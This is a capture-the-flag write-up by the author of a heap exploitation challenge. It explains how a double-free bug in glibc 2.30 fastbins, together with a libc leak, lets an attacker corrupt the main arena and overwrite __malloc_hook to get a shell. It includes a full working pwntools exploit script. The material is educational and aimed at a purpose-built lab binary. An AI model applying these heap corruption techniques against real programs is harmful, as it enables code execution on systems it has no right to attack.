

Strground is a heap exploitation challenge I made for the individual phase of the Unbreakable Romania CTF.

In the zip file we receive libc.so.6 which is GLIBC 2.30, however tcache is disabled. So this will be a fastbins heap challenge.
The binary has all the mitigations except canary:


Opening the binary in ida, we have 3 interesting functionalities:

1. CREATE:


It creates a heap chunk with the size of the length of the string sent. However the size can't be bigger than 0x57.

2. DELETE:


It deletes the heap chunk corresponding to the index you send.

3. ENCODE:


It executes a simple ROT encoding algorithm on your string.

The binary is clearly vulnerable to double free. After freeing a chunk via the DELETE command the pointer isn't nulled.
A double free occurs when the free() function is called more than once for the same memory address without allocating it again in between.
Now, when you request a new chunk of that size using malloc, the allocator will allocate a block that has been freed twice. This can result in two different pointers referencing the same memory location. If an attacker controls one of these pointers, they can alter the contents of the memory, potentially enabling them to execute arbitrary code.

Let's try this. Create a double free:


Dynamically inspecting the heap, we can see that the program free'd the same memory twice.


Usually this would have been a free win. Make a fake chunk before the ```__malloc_hook``` and use the values from the libc pointers to create a fake size (since all libc addresses usually start with 0x7f).

The problem? You can malloc chunks up to size 0x60, which means you won't be able to create a 0x70 sized chunk to be able to overwrite malloc hook with a usual exploitation.

So, what can we do? This is where the main arena comes into place.
In glibc, memory allocation functions such as malloc, free, realloc, etc., are implemented using a heap management system. The "main arena" is the primary heap from which memory is allocated. It is a central structure that manages memory blocks, and keeps track of free and allocated memory chunks.

This would be a representation of the main arena for the fastbins:


The intended solution was to use two double frees. In the first double free we will put a fake size in the main arena. In the second double free we will put a pointer in the main arena so when we allocate the next 0x60 sized chunk, malloc will interpret the chunk at the main arena as a valid chunk and we will be able to overwrite the main arena's top pointer.

This might sound complicated, so let's put it into practice.
The leak part of the exploit is straightforward: the ENCODE function uses a buffer that isn't initialized to zero and still contains random addresses from the stack. We'll create an empty string so that when encoding, the addresses from the stack will be encoded and printed.
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall")
p = elf.process()

def create(payload):
	p.sendline(payload)
	sleep(0.1)
	p.readuntil(b'\n')

def delete(payload):
	p.sendline(payload)
	sleep(0.1)
	p.readuntil(b'\n')

# Get libc leak
p.sendline(b"CREATE ")
p.readuntil(b'\n')
p.sendline(b"ENCODE 0")
p.readuntil(b'\n')

bytes_list = []

for _ in range(6):
    byte = ord(p.read(1)) - 3
    bytes_list.append(byte)

bytes_list.reverse()
address_str = '0x' + ''.join(
    format(byte, '02x') for byte in bytes_list)
Libc = int(address_str, 16) - 6458048 
print("Libc : {}".format(hex(Libc)))
```

After getting the libc base address we can continue with our exploitation. First, we'll set a fake size in the main arena.
```python
# First double free to put fake size in main_arena
create(b"CREATE luma123" + b'\x00'*0x38)
create(b"CREATE Luma123" + b'\x00'*0x38)
delete(b"DELETE 1")
delete(b"DELETE 2")
delete(b"DELETE 1")
create(b"CREATE " + p64(0x61) + b'\x00'*0x38)
create(b"CREATE luma123" + b'\x00'*0x38)
create(b"CREATE Luma123" + b'\x00'*0x38)
```

Inspecting the main arena:


We can notice our fake size was put in 0x0007f2ee0db4b88 which normally is the place for the 0x50 fastbin pointer. We'll continue with the next double free to set a pointer in the place for the 0x60 fastbins.
```python
# Address in main_arena where the pointer for 0x60 fastbins
# should be - 16 accounting for heap chunk metadata
create(b"CREATE " + p64(Libc + 3885952) + b'\x00'*0x48)
create(b"CREATE luma1234" + b'\x00'*0x48)
create(b"CREATE Luma1234" + b'\x00'*0x48)
```

Inspecting the main arena again:


Now, the next 0x60 chunk will start at the selected address in main_arena. Lets test this and create a string with 0x57 A's


And our logic was correct. The next 0x60 sized chunk started in the main_arena and we successfully overwrote the main arena top pointer. 

The rest is easy, overwrite the top pointer with the address of ```__malloc_hook``` - 35 (Accounting for the fake chunk size needed) and then overwrite the malloc hook with one_gadget. We'll also need to replace addresses after the top chunk so malloc won't fail.
```python
create(b"CREATE " + b"A"*48 + p64(Libc + 3885869) + 
b'\x00'*8 + p64(Libc + 3886016) * 2)

# Overwrite &__malloc_hook
create(b"CREATE " + b"A"*19 + p64(Libc + 0xe1fa1))

# Execute the one_gadget with a random malloc call
create(b"CREATE " + b'A'*0x28)
```

The full exploit:
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall")
p = elf.process()
#p = remote("127.0.0.1", 1338)

def create(payload):
	p.sendline(payload)
	sleep(0.1)
	p.readuntil(b'\n')

def delete(payload):
	p.sendline(payload)
	sleep(0.1)
	p.readuntil(b'\n')

# Get libc leak
p.sendline(b"CREATE ")
p.readuntil(b'\n')
p.sendline(b"ENCODE 0")
p.readuntil(b'\n')

bytes_list = []

for _ in range(6):
    byte = ord(p.read(1)) - 3
    bytes_list.append(byte)

bytes_list.reverse()
address_str = '0x' + ''.join(
    format(byte, '02x') for byte in bytes_list)
Libc = int(address_str, 16) - 6458048 
print("Libc : {}".format(hex(Libc)))

create(b"CREATE luma123" + b'\x00'*0x38)
create(b"CREATE Luma123" + b'\x00'*0x38)
delete(b"DELETE 1")
delete(b"DELETE 2")
delete(b"DELETE 1")
create(b"CREATE " + p64(0x61) + b'\x00'*0x38)
create(b"CREATE luma123" + b'\x00'*0x38)
create(b"CREATE Luma123" + b'\x00'*0x38)

create(b"CREATE luma1234" + b'\x00'*0x48)
create(b"CREATE Luma1234" + b'\x00'*0x48)
delete(b"DELETE 6")
delete(b"DELETE 7")
delete(b"DELETE 6")

create(b"CREATE " + p64(Libc + 3885952) + b'\x00'*0x48)
create(b"CREATE luma1234" + b'\x00'*0x48)
create(b"CREATE Luma1234" + b'\x00'*0x48)

create(b"CREATE " + b"A"*48 + p64(Libc + 3885869) +
b'\x00'*8 + p64(Libc + 3886016) * 2)

create(b"CREATE " + b"A"*19 + p64(Libc + 0xe1fa1))
create(b"CREATE " + b'A'*0x28)

p.interactive()
```

Executing it we get a shell:


Thank you for reading, I hope you found the challenge interesting.

If you want to try it, you can find an archive containing the Dockerfile, source code, exploit, and binary [here](https://raw.githubusercontent.com/qLuma/qLuma.github.io/main/challs/strground.zip)